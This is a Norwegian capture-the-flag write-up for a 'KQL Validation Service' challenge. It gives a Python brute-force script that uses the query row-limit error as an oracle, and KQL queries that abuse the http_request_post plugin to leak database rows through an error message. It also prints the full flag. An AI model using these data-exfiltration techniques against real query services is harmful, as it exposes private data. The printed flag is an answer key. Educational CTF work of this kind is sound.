

## KQL VALIDATION SERVICE

### Løsning

Vi tar utgangspunkt i en prompt vi utledet for å løse forrige oppgave:

```kql
search * | where * contains "$$" and * contains "}"
```

Etter litt testing finner vi en feilmelding som kan utnyttes for å røpe data:

```
Query execution has exceeded the allowed limits (80DA0003): The results of this query exceed the set limit of 500 records
```

Vi utnytter grenseverdien på 500 rader og bruker en loop som returnerer mer 501 rader dersom den klarer å finne starten på flagget i databasen. pack_all kombinerer alle kolonnene til én, toscalar konverterer første rad til en string (vi har bare én rad):

```kql
range n from 1 to toscalar(search * | where * contains "ept{" | count)*501 step 1
```

Feilmeldingen dukket opp også denne gangen. Det tyder på at vi kan finne flagget på denne måte. Dette kan scriptes for å bruteforce én og én bokstav:

```py
import requests
import string

def brute(url, query, word):
    for i in range(50):
        for letter in string.digits + string.ascii_lowercase + "<>,./:*@'+-$_-?!}= ":
            # Use replace placaolder with payload
            query_to_run = query.replace("$$", word+letter)

            response = requests.post(url, headers={"content-type": "application/json"}, json={ "query": query_to_run})

            if response.status_code == 400:
                word += letter
                print(word)
                if(letter == "}"): return word
                break
            else:
                print(letter)

brute("https://_uniqueid_-kqlvalidation.ept.gg/validate_kql", 'range n from 1 to toscalar(search * | where * contains "$$" and * contains "}" | count)*501 step 1', "EPT{6x+jd$")
```

Dette er en teoretisk løsning som ville fungert for korte flagg. Dessverre viste flagget seg å være for langt til å løse på denne måten. Dette er fordi det er lagt inn et internt delay på websiden som tvinger siden til å holde igjen i minst 3 sekunder før vi får svar. Den teoretiske tiden det ville tatt å finne flagget på denne måten vil derfor være:

```py
possibilities = len(string.digits + string.ascii_lowercase + "<>,./:*@'+-$_-?!}= ") # Antall tegn
time_pr_try = 3 # sekunder pr test
avg_time_pr_char = possibilities/2 * 3
flag_len = 188 - len("ept{" + "}") # (fant flagget på en annen måte senere, så vi vet lengden)
total_time = flag_len * avg_time_pr_char
```

Total tid blir 15097s eller 4t 11min.

Og ikke en gang da kan vi garantere at vi har rett, fordi søket kun matcher bokstaver i lowercase, så om det ikke blir akseptert av CTFd vil vi ikke få rett.


## Løsning 2

En annen løsning (antar at dette er mer som intended) er å utnytte at vi har plugins for å sende http requests. Det vet vi fordi det står under `/cluster_policies` på websiden.

Her kan vi enten velge å sette opp en server for å ta imot requesten, eller vi kan lage en request som feiler etter at vi har funnet flagget slik at flagget blir med i feilmeldingen.

Først henter vi ut raden som inneholder flagget og gjør det om fra en tabellentry til en string:

```kql
toscalar(search * | where * contains "ept{" and * contains "}" | project p = pack_all())
```

Så setter vi stringen inn som parameter i en request vi vet kommer til å feile:

```kql
evaluate http_request_post(
    strcat(
        "http://dum.my?", toscalar(search * | where * contains "ept{" and * contains "}" | project pack = pack_all())
    )
)
```

Som vi ser får vi flagget tilbake i en feilmelding, altså trenger vi aldri å sende requesten:



<details>
<summary>Flagg</summary>

`EPT{6X+Jd$>this_is_A_v3ry_long_fl4g_d0nt_try_to_brute_force_itt=B+----J-P.=pEv'GvAJ$aFdyRia.ABjwgv_7'j7''FY*I'JI,z@K1dvPLE@>R9!6x3O4hYG_5!/HnD/gt_g::S9'IgD'5@vbBfAcUOrv'u<4O=$,'IE./=DY$RX}`
</details>